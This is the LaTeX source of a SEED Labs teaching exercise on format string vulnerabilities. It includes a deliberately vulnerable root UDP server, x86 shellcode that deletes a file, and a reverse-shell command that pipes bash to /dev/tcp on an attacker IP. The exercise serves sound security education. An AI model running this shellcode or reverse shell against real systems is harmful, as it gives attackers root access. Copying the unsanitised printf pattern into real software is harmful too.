%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\newcommand{\formatFigs}{./Figs}


\lhead{\bfseries SEED Labs -- Format String Vulnerability Lab}


\begin{document}

\begin{center}
{\LARGE Format String Vulnerability Lab}

\vspace{0.05in}
Updated on January 12, 2020
\end{center}

\seedlabcopyright{2018}



% *******************************************
% SECTION
% ******************************************* 
\section{Overview}


The \texttt{printf()} function in C is used to print out a string according to a format.  Its
first argument is called \textit{format string}, which defines how the string should be
formatted. Format strings use placeholders marked by the \texttt{\%} character for the
\texttt{printf()} function to fill in data during the printing.  The use of format strings is
not only limited to the \texttt{printf()} function; many other functions, such as
\texttt{sprintf()}, \texttt{fprintf()}, and \texttt{scanf()}, also use format strings. Some
programs allow users to provide the entire or part of the contents in a format string. If such
contents are not sanitized, malicious users can use this opportunity to get the program to run
arbitrary code. A problem like this is called \textit{format string vulnerability}.


The objective of this lab is for students to gain the first-hand
experience on format string vulnerabilities by putting what they have learned 
about the vulnerability from class into actions. 
Students will be given a program with a format string
vulnerability; their task is to exploit
the vulnerability to achieve the following damage: (1) crash the 
program, (2) read the internal memory of the program, (3) modify
the internal memory of the program, and most severely, 
(4) inject and execute malicious code using the victim program's privilege. 
This lab covers the following topics:

\begin{itemize}[noitemsep]
\item Format string vulnerability
\item Code injection
\item Shellcode 
\item Reverse shell 
\end{itemize}


\noindent
\fbox{\parbox{\textwidth}{
\noindent
\textbf{Customization by instructor.} Instructors should customize
this lab by choosing a value for the \texttt{DUMMY\_SIZE} constant,
which is used during the compilation of the vulnerable program.
Different values can make the solutions
different. Please pick a value
between \texttt{0} and \texttt{300} for this lab.

\vspace{0.05in}
\begin{center}
\textbf{\large The \texttt{DUMMY\_SIZE} value for this lab is: \underline{\ \ \ \ \ \ \ \ \ \ \ }}
\end{center}
}}


\paragraph{Readings and videos.}
Detailed coverage of the format string attack can be found in the following:

\begin{itemize}
\item Chapter 6 of the SEED Book, \seedbook
\item Section 9 of the SEED Lecture at Udemy, \seedcsvideo
\item The lab also involves reverse shell, which is covered in Chapter 9 of the SEED book.
\end{itemize}



\paragraph{Lab environment.} \seedenvironment




\newpage
% *******************************************
% SECTION
% ******************************************* 
\section{Lab Tasks}

To simplify the tasks in this lab, we turn off the address randomization
using the following command: 

\begin{lstlisting}
 $ sudo  sysctl -w kernel.randomize_va_space=0
\end{lstlisting}


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 1: The Vulnerable Program}

You are given a vulnerable program that has a format string vulnerability.
This program is a server program. When it runs, it listens to UDP port
\texttt{9090}. Whenever a UDP packet comes to this port, the program
gets the data and invokes \texttt{myprintf()} to print out the data. 
The server is a root daemon, i.e., it runs with the root privilege. 
Inside the \texttt{myprintf()} function, there is a format string
vulnerability. We will exploit this vulnerability to gain the root
privilege.  

\begin{lstlisting}[label=format:code:server, caption={The vulnerable server program
             \texttt{server.c} (can be downloaded from the lab's website)}]
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>

#define PORT 9090

/* Changing this size will change the layout of the stack.
 * We have added 2 dummy arrays: in main() and myprintf().
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 * Suggested value: between 0 and 300  */
#ifndef DUMMY_SIZE
#define DUMMY_SIZE 100
#endif

char *secret = "A secret message\n";
unsigned int  target = 0x11223344;

void myprintf(char *msg)
{
    unsigned int *framep;
    // Copy the ebp value into framep, and print it out
    asm("movl %%ebp, %0" : "=r"(framep));
    printf("The ebp value inside myprintf() is: 0x%.8x\n", framep);

    /* Change the size of the dummy array to randomize the parameters
       for this lab. Need to use the array at least once */
    char dummy[DUMMY_SIZE];  memset(dummy, 0, DUMMY_SIZE);

    // This line has a format string vulnerability
    printf(msg);

    printf("The value of the 'target' variable (after): 0x%.8x\n", target);
}

void main()
{
    struct sockaddr_in server;
    struct sockaddr_in client;
    int clientLen;
    char buf[1500];

    /* Change the size of the dummy array to randomize the parameters
       for this lab. Need to use the array at least once */
    char dummy[DUMMY_SIZE];  memset(dummy, 0, DUMMY_SIZE);

    printf("The address of the input array: 0x%.8x\n", (unsigned) buf);

    helper();

    int sock = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
    memset((char *) &server, 0, sizeof(server));
    server.sin_family = AF_INET;
    server.sin_addr.s_addr = htonl(INADDR_ANY);
    server.sin_port = htons(PORT);

    if (bind(sock, (struct sockaddr *) &server, sizeof(server)) < 0)
        perror("ERROR on binding");

    while (1) {
        bzero(buf, 1500);
        recvfrom(sock, buf, 1500-1, 0,
                 (struct sockaddr *) &client, &clientLen);
        myprintf(buf);
    }
    close(sock);
}
\end{lstlisting}

\paragraph{Compilation.} Compile the above program. For this task,
we will compile it to 32-bit binary code. This is done via the
\texttt{-m32} option of the \texttt{gcc} command. 
We have a separate task for the 64-bit version (attacking 64-bit
programs is more challenging than attacking 32-bit programs).
During the compilation, you will see a
warning message. This warning is generated by a countermeasure implemented by
the \texttt{gcc} compiler against format string vulnerabilities. We can
ignore this warning for now. 


\begin{lstlisting}
// Note: N should be replaced by the value set by the instructor
$ gcc -m32 -DDUMMY_SIZE=N -z execstack -o server server.c
server.c: In function 'myprintf':
server.c:13:5: warning: format not a string literal and no format arguments 
               [-Wformat-security]
     printf(msg);
     ^
\end{lstlisting}

It should be noted that the program needs to be compiled using 
the \texttt{"-z execstack"} option, which allows the stack to be 
executable. This option has no impact on Tasks 1 to 5, but for 
Tasks 6 and 7, it is important. In these 
two tasks, we need to inject malicious code into this server program's stack space; 
if the  stack is not executable, Tasks 6 and 7 will fail. 
Non-executable stack is a countermeasure against stack-based 
code injection attacks, but 
it can be defeated using the return-to-libc technique. To simplify 
this lab, we simply disable this defeat-able countermeasure. 


\paragraph{For instructors.} 
To prevent students from using the solutions from the past (or from those 
posted on the Internet), instructors can change the 
value for \texttt{DUMMY\_SIZE} by requiring students to compile the 
server code using a different \texttt{DUMMY\_SIZE} value. 
Without the \texttt{-DDUMMY\_SIZE}  
option, \texttt{DUMMY\_SIZE} is set to the default value 100 (defined
in the program). 
When this value changes, the layout of the stack 
will change, and the solution will be different. 
Students should ask their instructors for
the value of \texttt{N}.




\paragraph{Running and testing the server.} The ideal setup for this lab is
to run the server on one VM, and then launch the attack from another VM.
However, it is acceptable if students use one VM for this lab.
On the server VM, we run our server program using the root privilege. We
assume that this program is a privileged root daemon. The server listens to
port \texttt{9090}. On the client VM, we can send data to the server using 
the \texttt{nc} command, where the flag \texttt{"-u"} means UDP (the server
program is a UDP server). The IP address in the following example should be 
replaced by the actual IP address of the server VM, or \texttt{127.0.0.1}
if the client and server run on the same VM. 

\begin{lstlisting}
// On the server VM
$ sudo ./server

// On the client VM: send a "hello" message to the server
$ echo hello | nc -u 10.0.2.5 9090

// On the client VM: send the content of badfile to the server
$ nc -u 10.0.2.5 9090 < badfile
\end{lstlisting}

Yon can send any data to the server. The server program is supposed
to print out whatever is sent by you. However, 
a format string vulnerability exists in the server program's
\texttt{myprintf()} function, which allows us to get the server program to
do more than what it is supposed to do, including giving us a root access to the
server machine. In the rest of this lab, we are going to
exploit this vulnerability.
 

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2: Understanding the Layout of the Stack}


\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.8\textwidth]{\formatFigs/StackLayout.pdf}
\end{center}
\caption{The stack layout when \texttt{printf()} is invoked 
from inside of the \texttt{myprintf()} function.}
\label{format:fig:stacklayout}
\end{figure}
 


To succeed in this lab, it is essential to understand the stack layout when
the \texttt{printf()} function is invoked inside \texttt{myprintf()}. 
Figure~\ref{format:fig:stacklayout} depicts the stack layout. 
You need to conduct some investigation and calculation. 
We intentionally print out some information in the server code to
help simplify the investigation. Based on the investigation,
students should answer the following questions: 

\begin{itemize} 
\item \textbf{Question 1:}  What are the memory addresses at the locations marked by
\ding{202}, \ding{203}, and \ding{204}?

\item \textbf{Question 2:} What is the distance between the locations marked
by \ding{202} and \ding{204}?
\end{itemize} 

 

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 3: Crash the Program}

The objective of this task is to provide an input to the server, such that
when the server program tries to print out the user input in the 
\texttt{myprintf()} function, it will crash.  


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 4: Print Out the Server Program's Memory}

The objective of this task is to get the server to print out some data 
from its memory. The data will be printed out on the server side, so
the attacker cannot see it. Therefore, this is not a meaningful
attack, but the technique used in this task will be essential for 
the subsequent tasks. 


\begin{itemize} 
\item \textbf{Task 4.A: Stack Data.}
The goal is to print out the data on the stack (any data is fine). 
How many format specifiers do you need to provide so you can get 
the server program to print out the first four bytes of your 
input via a \texttt{\%x}? 


\item \textbf{Task 4.B: Heap Data} 
There is a secret message stored in the heap area, and you know 
its address; your job is to print out the content of the secret message. 
To achieve this goal, you need to place the address (in the binary form) 
of the secret message in your input (i.e., the format string), but
it is difficult to type the binary data inside a terminal. We can use the following commands 
do that. 

\begin{lstlisting}
$ echo $(printf "\x04\xF3\xFF\xBF")%.8x%.8x | nc -u 10.0.2.5 9090

// Or we can save the data in a file
$ echo $(printf "\x04\xF3\xFF\xBF")%.8x%.8x > badfile
$ nc -u 10.0.2.5 9090 < badfile
\end{lstlisting}

It should be noted that most computers are small-endian machines, so to store
an address \texttt{0xAABBCCDD} (four bytes on a 32-bit machine) in memory, 
the least significant byte \texttt{0xDD} is stored in the lower address,
while the most significant byte \texttt{0xAA} is stored in the higher 
address. Therefore, when we store the address in a buffer, we need to 
save it using this order: \texttt{0xDD}, \texttt{0xCC}, \texttt{0xBB}, and 
then \texttt{0xAA}. 
\end{itemize} 


\paragraph{Python code.} Because the format string that 
we need to construct may be quite long, it is more convenient 
to write a Python program to do the construction. The 
following sample code shows how to construct 
a string that contains binary numbers. 


\begin{lstlisting}[label=format:code:exploit, caption={Sample code 
\texttt{build\_string.py} (can be downloaded from the lab's website)}]
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store an integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%s"
s = "%.8x"*12 + "%s" 

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()
\end{lstlisting}
 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 5: Change the Server Program's Memory}

The objective of this task is to modify the value of the 
\texttt{target} variable that is defined in the server program.
Its original value is \texttt{0x11223344}.  
Assume that this variable holds an important value, which can affect the 
control flow of the program. If remote attackers can change its value, 
they can change the behavior of this program. We have three sub-tasks. 



\begin{itemize} 
\item \textbf{Task 5.A: Change the value to a different value.}
In this sub-task, we need to change the content of the \texttt{target} variable
to something else. Your task is considered as a success if you can change it to a
different value, regardless of what value it may be.  


\item \textbf{Task 5.B: Change the value to \texttt{0x500}.}  
In this sub-task, we need to change the content of the \texttt{target} variable
to a specific value \texttt{0x500}. Your task is considered as 
a success only if the variable's value becomes \texttt{0x500}. 


\item \textbf{Task 5.C: Change the value to \texttt{0xFF990000}.}  
This sub-task is similar to the previous one, except that the target value is 
now a large number. In a format string attack, this 
value is the total number of characters that
are printed out by the \texttt{printf()} function; printing out 
this large number of characters may take hours. You need to use a faster approach. The 
basic idea is to use \texttt{\%hn}, instead of \texttt{\%n}, so we can modify 
a two-byte memory space, instead of four bytes. Printing out
$2^{16}$ characters does not take much time. We can break the 
memory space of the \texttt{target} variable into two blocks of memory,
each having two bytes. We just need to set one block to \texttt{0xFF99}
and set the other one to \texttt{0x0000}. 
This means that in your attack, you need to provide two addresses in the
format string. 

In format string attacks, changing the content of a memory space to
a very small value is quite challenging (please explain why in the report); 
\texttt{0x00} is an extreme case. To achieve this goal, we 
need to use an overflow technique. The basic idea is that when 
we make a number larger than what the storage allows, only the lower part of the number will be
stored (basically, there is an integer overflow). 
For example, if the number $2^{16} + 5$ is stored
in a 16-bit memory space, only $5$  will be stored. Therefore, to 
get to zero, we just need to get the number to $2^{16} = 65,536$.

\end{itemize} 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 6: Inject Malicious Code into the Server Program}

Now we are ready to go after the crown jewel of this attack, i.e., to
inject a piece of malicious code to the server program, so we can delete 
a file from the server. This task will 
lay the ground work for our next task, which is to gain the complete control
of the server computer. 

To do this task, we need to inject a piece of malicious code, in its binary format, 
into the server's memory, and then use the format string vulnerability 
to modify the return address field of a function, so when the function returns, 
it jumps to our injected code. To delete a file, we want the 
malicious code to execute the \texttt{/bin/rm} command using a shell
program, such as \texttt{/bin/bash}. This type of code is called 
shellcode. 

\begin{lstlisting}
 /bin/bash -c "/bin/rm /tmp/myfile"
\end{lstlisting}
 
We need to execute the above shellcode command using the 
\texttt{execve()} system call, which means 
feeding the following arguments to \texttt{execve()}:

\begin{lstlisting}
 execve(address to the "/bin/bash" string, address to argv[], 0), 
   where argv[0] = address of the "/bin/bash" string,
         argv[1] = address of the "-c" string,
         argv[2] = address of the "/bin/rm /tmp/myfile" string,
         argv[3] = 0
\end{lstlisting}
 
We need to write the machine code to invoke the \texttt{execve()} 
system call, which involves setting the following four
registers before invoking the \texttt{"int 0x80"} instruction.  

\begin{lstlisting}
 eax = 0x0B (execve()'s system call number)
 ebx = address of the "/bin/bash" string (argument 1)
 ecx = address of argv[] (argument 2)
 edx = 0 (argument 3, for environment variables; we set it to NULL)
\end{lstlisting}


Setting these four registers in a shellcode is quite challenging, mostly
because we cannot have any zero in the code (zero in string terminates
the string).  We provide 
the shellcode in the following. Detailed explanation of shellcode can be found 
in the Buffer-Overflow Lab and in Chapter 4.7 of the SEED book (2nd edition).


\begin{lstlisting}[label=format:code:shellcode, 
   caption=Shellcode in \texttt{exploit.py} (can be downloaded from the lab's website)] 
# The following code runs "/bin/bash -c '/bin/rm /tmp/myfile'"
malicious_code= (
    # Push the command '/bin////bash' into stack (//// is equivalent to /)
    "\x31\xc0"                      # xorl %eax,%eax
    "\x50"                          # pushl %eax
    "\x68""bash"                    # pushl "bash"
    "\x68""////"                    # pushl "////"
    "\x68""/bin"                    # pushl "/bin"
    "\x89\xe3"                      # movl %esp, %ebx  

    # Push the 1st argument '-ccc' into stack (-ccc is equivalent to -c)
    "\x31\xc0"                      # xorl %eax,%eax
    "\x50"                          # pushl %eax
    "\x68""-ccc"                    # pushl "-ccc"
    "\x89\xe0"                      # movl %esp, %eax

    # Push the 2nd argument into the stack:
    #       '/bin/rm /tmp/myfile'
    # Students need to use their own VM's IP address
    "\x31\xd2"                      # xorl %edx,%edx
    "\x52"                          # pushl %edx
    "\x68""    "                    # pushl (an integer)  (*@\ding{192}@*)
    "\x68""ile "                    # pushl (an integer)
    "\x68""/myf"                    # pushl (an integer)
    "\x68""/tmp"                    # pushl (an integer)
    "\x68""/rm "                    # pushl (an integer)
    "\x68""/bin"                    # pushl (an integer)  (*@\ding{193}@*)
    "\x89\xe2"                      # movl %esp,%edx

    # Construct the argv[] array and set ecx
    "\x31\xc9"                      # xorl %ecx,%ecx
    "\x51"                          # pushl %ecx
    "\x52"                          # pushl %edx
    "\x50"                          # pushl %eax
    "\x53"                          # pushl %ebx
    "\x89\xe1"                      # movl %esp,%ecx

    # Set edx to 0
    "\x31\xd2"                      #xorl %edx,%edx

    # Invoke the system call
    "\x31\xc0"                      # xorl %eax,%eax
    "\xb0\x0b"                      # movb $0x0b,%al
    "\xcd\x80"                      # int $0x80
).encode('latin-1')
\end{lstlisting}
 

You need to pay attention to the code between Lines~\ding{192} and~\ding{193}.
This is where we push the \texttt{/bin/rm} command string into the stack. In this task, you
do not need to modify this part, but for the next task, you do need to modify it. 
The \texttt{pushl} instruction can only push a 32-bit integer into the stack; that is why we
break the string into several 4-byte blocks. Since this is a shell command, adding additional
spaces do not change the meaning of the command; therefore, if the length of the string cannot
be divided by four, you can always add additional spaces.  The stack grows from high address to
low address (i.e., reversely), so we need to push the string also reversely into the 
stack.

In the shellcode, when we store \texttt{"/bin/bash"} into the stack, we store 
\texttt{"/bin////bash"}, which has a length 12, a multiple of 4. The additional \texttt{"/"}
are ignored by \texttt{execve()}. Similarly, when we store \texttt{"-c"} into the stack,
we store \texttt{"-ccc"}, increasing the length to 4. For \texttt{bash}, those 
additional \texttt{c}'s are considered as redundant.  


Please construct your input, feed it to the server program, and demonstrate that you can
successfully remove the target file. In your lab report, you need to explain
how your format string is constructed. Please mark on Figure~\ref{format:fig:stacklayout} where 
your malicious code is stored (please provide the concrete address). 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 7: Getting a Reverse Shell}

When attackers are able to inject a command to the victim's machine, 
they are not interested in running one simple
command on the victim machine; they are more interested in running many
commands. What attackers want to achieve is to use the
attack to set up a back door, so they can use this
back door to conveniently conduct further damages.

A typical way to set up back doors is to run a reverse shell from the
victim machine to give the attacker the shell access to the victim machine.
Reverse shell is a shell process running on a remote machine, connecting
back to the attacker's machine. This gives an attacker a convenient way to
access a remote machine once it has been compromised. Explanation on how a
reverse shell works is provided in Chapter 9 of the SEED book (2nd edition). It can 
also be found in the Guideline section of the Shellshock attack lab 
and the TCP attack lab.


To get a reverse shell, we need to first run a TCP server on the attacker
machine. This server waits for our malicious code to call back from the 
victim server machine. The following \texttt{nc} command creates a TCP
server listening to port \texttt{7070}:  

\begin{lstlisting}[backgroundcolor=]
$ nc -lnv 7070 
\end{lstlisting}


You need to modify the shellcode listed in 
Listing~\ref{format:code:shellcode}, so instead of running 
the \texttt{/bin/rm} command using \texttt{bash}, your shellcode runs the 
following command. 
The example assumes that the attacker machine's IP address is \texttt{10.0.2.6}, so you need to
change the IP address in your code:   

\begin{lstlisting}[backgroundcolor=]
/bin/bash -c "/bin/bash -i > /dev/tcp/10.0.2.6/7070 0<&1 2>&1"
\end{lstlisting}

You only need to modify the code between Lines~\ding{192} and~\ding{193}, so the above
\texttt{"/bin/bash -i ..."} command is executed by the shellcode, instead of the
\texttt{/bin/rm} command. Once you finish the shellcode, you should  construct your format
string, send it over to the victim server as an input. If your attack is successful, your TCP
server should get a callback, and you will get a root shell on the victim machine. Please
provide the evidence of success in your report (including screenshots).



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 8: Fixing the Problem}

Remember the warning message generated by the \texttt{gcc} compiler? Please explain what
it means. Please fix the vulnerability in the server program, and recompile it. 
Does the compiler warning go away? Do your attacks 
still work? You only need to try one of your attacks to see whether it still
works or not. 



% *******************************************
% SECTION
% ******************************************* 
\section{Submission}

\seedsubmission

\end{document}
